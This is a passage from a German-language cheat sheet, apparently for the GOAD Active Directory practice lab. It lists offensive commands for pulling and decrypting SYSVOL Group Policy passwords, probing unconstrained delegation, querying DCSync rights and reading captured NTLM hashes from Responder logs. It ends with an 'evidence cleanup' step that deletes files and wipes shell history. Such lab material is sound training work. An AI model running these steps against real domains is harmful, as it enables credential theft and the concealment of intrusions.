 
## GOAD-Spezifische Angriffspfade

### Scenario-basierte Exploits

#### 1. Password in SYSVOL (jeor.mormont)
```bash
# SYSVOL Share durchsuchen
smbclient //192.168.10.11/SYSVOL -U jeor.mormont
smb: \> recurse ON
smb: \> prompt OFF  
smb: \> mget *

# GPP-Passwords entschlüsseln
grep -r cpassword *.xml
python3 gpp-decrypt.py ENCRYPTED_PASSWORD
```

#### 2. Unconstrained Delegation (winterfell/castelblack)
```bash
# Delegation prüfen
crackmapexec ldap 192.168.10.10 -u user -p password --trusted-for-delegation

# TGT Capture (wenn System kompromittiert)
# Via Rubeus: .\Rubeus.exe monitor /interval:1
```

#### 3. AdminSDHolder Abuse
```bash
# BloodHound Query: "Find Principals with DCSync Rights"
# Via PowerView: Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs
```

---

## Monitoring & Cleanup

### 1. Log-Analyse
```bash
# Responder Logs
ls -la /usr/share/responder/logs/
cat /usr/share/responder/logs/*NTLM*.txt

# CrackMapExec Logs  
ls -la ~/.crackmapexec/logs/
tail -f ~/.crackmapexec/logs/crackmapexec.log
```

### 2. Evidence Cleanup
```bash
# Temporäre Dateien löschen
rm -f *.txt *.ccache *.json *.zip
rm -rf ~/goad-tools/

# History löschen
history -c
unset HISTFILE
```

---